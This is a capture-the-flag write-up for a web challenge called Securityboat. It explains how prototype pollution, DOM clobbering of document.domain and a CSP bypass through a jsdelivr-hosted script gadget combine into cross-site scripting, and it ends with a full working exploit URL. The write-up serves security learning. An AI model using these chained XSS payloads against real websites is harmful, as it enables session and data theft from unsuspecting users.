 ## Securityboat challenge
![2022-12-05_16-55](https://user-images.githubusercontent.com/59454895/205682163-7dbc6b1b-2279-4f43-a2bc-7a702228b692.png)

The web-site doesn't have a ton of features. it is possible to insert a note and a title, then the user can view the content just inserted.
Looking at the code, it is immediately possible to identify the injection point:

![2022-12-05_17-02](https://user-images.githubusercontent.com/59454895/205683886-012d1e35-0d2c-40a5-8a0e-f6b5a9acd38a.png)

### Injection Point
in the code above ```localStorage.flag``` is passed to ```InnerHTML```, but ```localStorage``` is going to inherit from the Object.prototype. It means that if we have an client-side prototype pollution we can to control the localStorage value, here there is an example:
![2022-12-05_17-30](https://user-images.githubusercontent.com/59454895/205690366-1a23ef2c-4acd-4336-811e-019c53515d58.png)

I managed to confirm the presence of prototype pollution in this way:

![2022-12-05_19-14](https://user-images.githubusercontent.com/59454895/205711384-3b05731e-58ab-4b2d-a08e-11733a032b2b.png)

Now that the vulnerability is confirmed, the condition ```if(document.domain !== 'ctf.securityboat.in')``` must be bypassed in order to reach the injection point, to do it we can use a vulnerability called dom clobbering.

### Dom Clobbering

With Dom Clobbering is also possible to clobber `document` properties with some tags, like the `<img>` or `<form>` tag, let's make an example:


![](https://i.imgur.com/3Nn3xJp.png)

You can see how `document.URL` is returning a string with the url of the page, but after I put `<img name=URL>` the img element will be returned instaed of the string, let's make another example:

![](https://i.imgur.com/SgBmupO.png)

As you can see in this screenshot, if we have an img tag on the page with the name attribute set to “try”, “document.try” now refers to this HTML element.
As you might now have guessed, we can use this technique to override the “document.domain” variable with an HTML element and bypass the condition.

Now that this concept is clear, we can use something like `https://ctf.securityboat.in/?title=a1&body=1&subject=a%3Cform%20name=DOMAIN%3E%3C/form%3E&__proto__[flag]=%3Cimg%20src=x%20onerror=alert()%3E`. 

The first part (`<form name=DOMAIN>`) is related to the dom clobbering technique that we need to bypass the condition and reach the injection point described above, the second part of the payload is usefull to us because we can pollute `flag` with our malicious content, but the alert won't pop up because there is a CSP to bypass.

### CSP Bypass and Conclusion

These were the rules of the CSP inside a meta tag:
```html
 <meta
      http-equiv="Content-Security-Policy"
      content="default-src 'self'; style-src 'unsafe-inline' https://cdn.jsdelivr.net; font-src  https://cdn.jsdelivr.net; script-src 'self' https://cdn.jsdelivr.net; object-src 'none'"
 />
```
Here the bypass is very simple, the directive ```'script-src'``` is accepting ```jsdeliver```, therefore, inside ```jsdeliver``` there is a well known gadget that we can abuse to bypass the csp:

```html
 <script src="https://unpkg.com/csp-bypass@1.0.2-0/dist/sval-classic.js"></script>
  <br csp="alert(1)">
```
Full Payload:

```https://ctf.securityboat.in/?title=a1&body=1&subject=a<form name=DOMAIN></form>&__proto__[flag]=<iframe srcdoc="<br csp=alert(localStorage.getItem('flag'))><script src=https://cdn.jsdelivr.net/npm/csp-bypass@1.0.2/dist/sval-classic.js></script>"></iframe>```


